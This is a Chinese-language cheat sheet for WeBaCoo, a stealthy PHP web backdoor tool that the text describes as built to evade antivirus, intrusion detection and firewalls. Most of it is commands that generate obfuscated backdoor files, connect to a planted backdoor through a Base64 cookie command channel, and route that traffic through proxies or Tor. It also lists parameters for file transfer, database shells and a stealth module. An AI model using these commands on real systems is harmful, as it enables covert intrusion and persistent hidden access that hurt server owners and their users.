 Webacoo

WeBaCoo （Web Backdoor Cookie） 是一款隐蔽的脚本类Web后门工具。设计理念是躲避AV、NIDS、IPS、网络防火墙和应用防火墙的查杀，提供混淆和原始两种后门代码（原始代码较难检测）。WebBaCoo 使用HTTP响应头传送命令执行的结果，Shell命令经过Base64编码后隐藏在Cookie头中。
安装
Default
Kali Linux 下默认位于：
/usr/bin 目录下
 
使用git 安装
git clone git://github.com/anestisb/WeBaCoo.git
 
官网
http://sbechtsoudis.com/archiive/webacoo/index.html

常见使用方法
生成模式(后门生成)
Default
使用默认配置生成模糊后门代码
webacoo -g -o backdoor.php 
#backdoor.php为自定义后门文件名
 
使用exec有效载荷生成混淆后门代码
webacoo -g -o backdoor.php -f 3  
#backdoor.php为自定义后门文件名 3表示exec方法
 
使用popen有效载荷生成原始后门代码
webacoo -g -o backdoor.php -f 5 -r 
#backdoor为自定义后门文件名 5表示popen方法
终端模式(后门利用)
Default
使用默认配置访问服务器
webacoo -t -u http://xxx/backdoor.php 
#-u 后门路径
 
使用"Cookie-name"作为Cookie名称、"TXT"作为分隔符访问服务器
webacoo -t -u http://xxx/backdoor.php -c "Cookie-name" -d "TtT" 
#Cookie-name 与 TtT 为自定义内容
 
使用一般代理
webacoo -t -u http://xxx/backdoor.php -c "Cookie-name" -d "TtT" -p XX.XX.XX.XX:XXXX 
#Cookie-name 与 TtT 为自定义内容 XX替换为相应的ip和端口号
 
使用tor代理
webacoo -t -u http://xxx/backdoor.php -c "Cookie-name" -d "TtT" -p tor 
#Cookie-name 与 TtT 为自定义内容
参数解释
Default
-f FUNCTION ：使用PHP系统函数 system、shell_exec、exec、passthru、popen ，按顺序FUNCTION分别为数字1、2、3、4、5
-g：生成后门
-o：指定生成的后门文件名
-u URL：后门路径
-e CMD：单独命令执行模式 需要添加 -t 和 -u参数
-m METHOD：选择HTTP请求方式，默认为GET
-c COOKIE：Cookie的名字，默认为：M-cookie
-d DELIM：指定分隔符 默认为随机
-p PROXY：使用代理
-v LEVEL：打印的详细程度。默认0 无附加信息，1打印HTTP头，2打印HTTP头和数据
-h：显示帮助文件并退出
-update：更新
mysql-cli：MySQL命令行模式
psql-cli：Postgres命令行模式
upload 使用POST上传文件
download：下载文件
stealth：通过.htaccess 处理增加的隐形模块

